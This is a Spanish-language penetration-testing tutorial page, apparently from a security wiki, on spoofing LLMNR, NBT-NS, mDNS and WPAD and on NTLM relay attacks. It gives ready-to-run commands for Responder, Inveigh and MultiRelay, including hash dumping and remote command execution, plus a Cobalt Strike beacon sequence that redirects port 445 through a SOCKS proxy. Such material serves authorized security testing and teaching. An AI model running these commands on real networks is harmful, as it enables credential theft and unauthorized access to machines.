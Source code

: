 # Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

## Protocolos de Red

### Protocolos de Resolución de Host Local

* **LLMNR, NBT-NS y mDNS**:
* Microsoft y otros sistemas operativos utilizan LLMNR y NBT-NS para la resolución de nombres locales cuando falla DNS. De manera similar, los sistemas de Apple y Linux utilizan mDNS.
* Estos protocolos son susceptibles a la interceptación y suplantación debido a su naturaleza de difusión no autenticada sobre UDP.
* [Responder](https://github.com/lgandx/Responder) se puede utilizar para suplantar servicios enviando respuestas falsificadas a hosts que consultan estos protocolos.
* Se puede encontrar más información sobre la suplantación de servicios utilizando Responder [aquí](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Protocolo de Descubrimiento Automático de Proxy Web (WPAD)

* WPAD permite a los navegadores descubrir la configuración de proxy automáticamente.
* El descubrimiento se facilita a través de DHCP, DNS, o en caso de fallo de DNS, mediante LLMNR y NBT-NS.
* Responder puede automatizar ataques de WPAD, dirigiendo a los clientes a servidores WPAD maliciosos.

### Responder para Envenenamiento de Protocolos

* **Responder** es una herramienta utilizada para envenenar consultas LLMNR, NBT-NS y mDNS, respondiendo selectivamente según los tipos de consulta, apuntando principalmente a servicios SMB.
* Viene preinstalado en Kali Linux, configurable en `/etc/responder/Responder.conf`.
* Responder muestra las hashes capturadas en pantalla y las guarda en el directorio `/usr/share/responder/logs`.
* Es compatible con IPv4 e IPv6.
* La versión de Windows de Responder está disponible [aquí](https://github.com/lgandx/Responder-Windows).

#### Ejecutando Responder

* Para ejecutar Responder con la configuración predeterminada: `responder -I <Interfaz>`
* Para un sondeo más agresivo (con posibles efectos secundarios): `responder -I <Interfaz> -P -r -v`
* Técnicas para capturar desafíos/respuestas NTLMv1 para una descifrado más fácil: `responder -I <Interfaz> --lm --disable-ess`
* La suplantación de WPAD se puede activar con: `responder -I <Interfaz> --wpad`
* Las solicitudes de NetBIOS se pueden resolver a la IP del atacante, y se puede configurar un proxy de autenticación: `responder.py -I <interfaz> -Pv`

### Envenenamiento DHCP con Responder

* La suplantación de respuestas DHCP puede envenenar permanentemente la información de enrutamiento de una víctima, ofreciendo una alternativa más sigilosa al envenenamiento ARP.
* Requiere un conocimiento preciso de la configuración de red del objetivo.
* Para ejecutar el ataque: `./Responder.py -I eth0 -Pdv`
* Este método puede capturar eficazmente hashes NTLMv1/2, pero requiere un manejo cuidadoso para evitar interrupciones en la red.

### Capturando Credenciales con Responder

* Responder suplantará servicios utilizando los protocolos mencionados anteriormente, capturando credenciales (generalmente NTLMv2 Challenge/Response) cuando un usuario intenta autenticarse contra los servicios falsificados.
* Se pueden realizar intentos para degradar a NetNTLMv1 o deshabilitar ESS para facilitar el descifrado de credenciales.

Es crucial tener en cuenta que el uso de estas técnicas debe realizarse de manera legal y ética, asegurando la autorización adecuada y evitando la interrupción o el acceso no autorizado.

## Inveigh

Inveigh es una herramienta para pentesters y equipos de red, diseñada para sistemas Windows. Ofrece funcionalidades similares a Responder, realizando suplantaciones y ataques de intermediario. La herramienta ha evolucionado desde un script de PowerShell a un binario de C#, con [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) y [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) como las principales versiones. Se pueden encontrar parámetros detallados e instrucciones en la [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh se puede operar a través de PowerShell:

```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```

O ejecutado como un binario de C#:

```bash
Inveigh.exe
```

### Ataque de Relevo NTLM

Este ataque aprovecha sesiones de autenticación SMB para acceder a una máquina objetivo, otorgando un shell del sistema si tiene éxito. Los requisitos clave incluyen:

* El usuario autenticado debe tener acceso de Administrador Local en el host de retransmisión.
* La firma SMB debe estar deshabilitada.

#### Reenvío y Túneles de Puerto 445

En escenarios donde la introducción directa a la red no es factible, el tráfico en el puerto 445 debe ser reenviado y tunelizado. Herramientas como [**PortBender**](https://github.com/praetorian-inc/PortBender) ayudan a redirigir el tráfico del puerto 445 a otro puerto, lo cual es esencial cuando se dispone de acceso de administrador local para la carga de controladores.

Configuración y operación de PortBender en Cobalt Strike:

```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```

### Otras Herramientas para Ataque de Relevo NTLM

* **Metasploit**: Configurado con proxies, detalles del host local y remoto.
* **smbrelayx**: Un script en Python para relé de sesiones SMB y ejecutar comandos o desplegar puertas traseras.
* **MultiRelay**: Una herramienta de la suite Responder para relé de usuarios específicos o todos los usuarios, ejecutar comandos o volcar hashes.

Cada herramienta se puede configurar para operar a través de un proxy SOCKS si es necesario, permitiendo ataques incluso con acceso de red indirecto.

### Operación de MultiRelay

MultiRelay se ejecuta desde el directorio _**/usr/share/responder/tools**_, apuntando a IPs o usuarios específicos.

```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```

### Forzar Inicios de Sesión NTLM

En Windows **puede ser posible forzar a algunas cuentas privilegiadas a autenticarse en máquinas arbitrarias**. Lee la siguiente página para aprender cómo:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Referencias

* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
